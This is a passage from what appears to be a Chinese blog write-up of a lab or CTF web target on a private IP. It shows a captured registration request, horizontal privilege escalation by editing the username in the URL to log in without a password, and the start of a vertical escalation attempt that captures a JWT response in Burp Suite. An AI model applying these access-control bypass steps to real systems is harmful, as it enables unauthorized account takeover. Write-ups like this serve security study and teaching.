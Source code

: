 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213231617682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)

```
# 修改后的注册数据包

POST /users/register HTTP/1.1
Host: 192.168.72.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
content-type: application/json
Content-Length: 49
Origin: http://192.168.72.145
Connection: close
Referer: http://192.168.72.145/login

{"name":"garmin",
"email":"garmin@test.com",
"username":"garmin",
"password":"1234!@#$"
}
```

注册成功，并尝试登陆

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213231714960.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213231740819.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
### 进行水平越权

使用相同的方法注册一个账号admin，密码123，登陆后发现用户名也是明文显示在url上，尝试在url上修改用户名，结果竟然不需要密码就能直接登陆，但是登陆后的账号与注册的普通账号权限一样，因此这是一种==水平越权==

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213231804171.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213231838713.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
### 进行垂直越权

再次登录，通过Burpsuite抓包查看服务器回包的信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213232141713.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)

```
# 回报的信息

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 04 Dec 2019 16:36:35 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 396
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
ETag: W/"18c-YIn4//rjps/AGEgvA6o4HKXdUxY"

{"success":true,"token":"JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiJnYXJtaW4iLCJlbWFpbCI6Imdhcm1pbkB0ZXN0LmNvbSIsInVzZXJuYW1lIjoiZ2FybWluIiwiYXV0aF9sZXZlbCI6InN0YW5kYXJkX3VzZXIifSwiaWF0IjoxNTc1NDc3Mzk1LCJleHAiOjE1NzYwODIxOTV9.9EdCybe5oqEUisMWhmlaEPsrVgbpLzilaHL96-deWSg","user":{"name":"garmin","username":"garmin","email":"garmin@test.com","auth_level":"standard_user"}}

```
